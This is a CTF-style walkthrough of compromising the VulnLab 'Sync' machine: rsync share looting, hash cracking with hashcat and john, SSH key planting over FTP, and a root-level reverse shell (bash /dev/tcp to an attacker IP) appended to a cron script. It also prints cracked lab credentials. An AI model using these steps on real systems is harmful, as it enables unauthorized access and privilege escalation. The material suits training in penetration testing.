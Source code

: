 ```yaml
---
title: VulnLab -- Sync Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [enumeration,web exploitaion]
image:
    path: images/sync-banner.png
---
```

# Sync

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Sync** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/sync-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 21,22,80,873 --min-rate=1000 10.10.64.150
```

![image.png](../images/sync.png)

Now let’s see the website running on port 80

![image.png](../images/sync%201.png)

As we see it’s a simple login page

Now let’s go to the rsync service and see if there is any shares

```bash
rsync 10.10.64.150::
```

![image.png](../images/sync%202.png)

and we have a httpd so let’s download it’s content

```bash
rsync 10.10.64.150::"httpd/www/dashboard.php" .
rsync 10.10.64.150::"httpd/www/index.php" . 
rsync 10.10.64.150::"httpd/www/logout.php" .
```

![image.png](../images/sync%203.png)

now let’s download the site database

```bash
rsync 10.10.64.150::"httpd/db/site.db" .
```

![image.png](../images/sync%204.png)

now let’s review the code!

![image.png](../images/sync%205.png)

> First we will notice that the code is vulnerable to sql injection but the most interesting thing is that the hash is calculated by concatenating the $secure ,$username and $password variables
> 

So let’s go and extract the passwords from the database we got

```bash
 SELECT * FROM users;
```

![image.png](../images/sync%206.png)

> Now we have everything we need the username and the secure
username: admin
hash: 7658a2741c9df3a97c819584db6e6b3c
username: triss
hash: a0de4d7f81676c3ea9eabcadfd2536f6
secure: 6c4972f3717a5e881e282ad3105de01e
> 

now let’s try to crack the password

```bash
cat crackme.txt
```

![image.png](../images/sync%207.png)

now let’s use hashcat to crack it

```bash
hashcat -m 20 crackme.txt /usr/share/wordlists/rockyou.txt
```

![image.png](../images/sync%208.png)

and we got the password for the user triss so let’s reuse it in the ftp

```bash
username: triss
password: gerald
```

![image.png](../images/sync%209.png)

now let’s generate a SSH keys

```bash
ssh-keygen
```

![image.png](../images/sync%2010.png)

now copy the public key in your folder and name it authorized_keys

```bash
cp ~/.ssh/id_ed25519.pub authorized_keys
```

![image.png](../images/sync%2011.png)

now in the ftp let’s make a .ssh directory

```bash
mkdir .ssh
```

![image.png](../images/sync%2012.png)

now navigate to it and upload the authorized_keys file

```bash
put authorized_keys
```

![image.png](../images/sync%2013.png)

Now let’s try to SSH  to the machine

```bash
ssh triss@10.10.64.150
```

![image.png](../images/sync%2014.png)

and we logged in

Now let’s navigate to the /backup directory

![image.png](../images/sync%2015.png)

and as we see alot of zip files is created so let’s download one of them

```bash
unzip 1743232081.zip 
```

![image.png](../images/sync%2016.png)

notice that there is a backup for the passwd and shadow file so let’s abuse it by making a cracking there hash

```bash
unshadow passwd shadow > crackme.txt
```

![image.png](../images/sync%2017.png)

Now let’s go and crack it

```bash
john crackme.txt --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/sync%2018.png)

> Notice that we got the passwords for all users
username: sa
password: sakura
username: jennifer
password: gerald
> 

Now let’s switch to the sa user

```bash
su sa
```

![image.png](../images/sync%2019.png)

Now let’s go and see if there is any hidden script running in the background

```bash
./pspy64
```

![image.png](../images/sync%2020.png)

> Notice that there is a script running as root
> 

let’s go and see our permission on this file

```bash
ls -las /usr/local/bin/backup.sh
```

![image.png](../images/sync%2021.png)

Since we are the user sa we can edit the script and add a reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.8.5.233/1337 0>&1'" >> /usr/local/bin/backup.sh
```

![image.png](../images/sync%2022.png)

as we see the reverse shell was added so let’s open a listener on our machine

```bash
nc -lvnp 1337
```

![image.png](../images/sync%2023.png)

now let’s wait for the reverse shell

![image.png](../images/sync%2024.png)

and we got root so let’s go and see the root flag

```bash
cd /root;ls -las
```

![image.png](../images/sync%2025.png)

Amazing we got root flag 🥳

![image.png](../images/sync%2026.png)

That’s it for the **Sync** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT